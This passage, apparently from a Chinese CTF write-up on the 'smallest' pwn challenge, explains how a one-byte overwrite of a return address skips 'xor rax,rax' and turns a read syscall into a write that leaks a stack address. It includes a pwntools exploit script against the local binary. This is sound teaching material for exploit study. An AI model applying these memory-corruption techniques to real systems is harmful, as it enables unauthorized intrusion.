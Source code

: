     接着执行 ret，此时返回的地址是 esp 存放的 0x4000B3，表示指令 mov edx, 400h，正好跳过了 xor rax, rax，这样 rax 的值能够继续保存为 1，此时 esp 指向的是第三个 main\_addr，如图<4>
    
    程序跳转到 0x4000B3 继续执行，rax 为 1 表示调用函数 write(1,esp,0x400h)，此时会输出栈内存地址，但是由于此时栈中的第一个内容还是第三个 main\_addr，故需要读取 8 到 16 的内容
    
    接着执行 ret，此时程序返回的是 main\_addr，而 esp 指向的地址就是我们得到的栈地址
    
    [![](assets/1701678439-78ce3f83445b9e960eb2120d32b94b33.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20231129204919-b6799d94-8eb5-1.jpg)
    
    对应的 exp：
    
    ```bash
    # -*- coding: utf-8 -*-
    from pwn import *
    
    context(os='linux',arch='amd64',log_level='debug')
    p = process('./smallest')
    
    main_addr = 0x04000B0
    syscall_addr = 0x04000BE
    
    #三次 main_addr 是为了构造后面三次跳转
    payload = p64(main_addr) + p64(main_addr) + p64(main_addr)
    p.send(payload)
    #程序成功将三个地址写入栈中，此时执行 ret 后将程序返回至 main_addr，而 esp 指向第二个 main_addr
    #进行新一轮的 read，发送 3 的目的是将当前 esp(也就是第二个的值进行更改),由于程序是小端存储，故此时的 0x04000B0 会变成 0x04000B3，这个地址正好对应的是 mov  edx, 400h，跳过了 xor rax,rax(将 rax 的值变成 0)，read 函数的特性，写入了一个字符后，将写入的长度存放在 rax，也就是为 1，接着执行到 ret，将程序返回至 0x04000B3，此时 esp 指向的是刚开始的第三个 main_addr
    #由于 rax 里面的值为 1，正好是 write 函数的系统调用号，也就意味着接下来执行的是 write 函数，而需要输出的首地址是 esp，此时第一个存放的是 main_addr，接下来的 8 到 16 就是我们需要得到的地址
    #输出地址后，程序执行 ret，此时程序又返回到 main_addr，程序重新开始
    p.send('\xb3')
    #得到栈地址
    stack_addr = u64(p.recv()[8:16])
    print("stack addr:"+hex(stack_addr))
    ```
    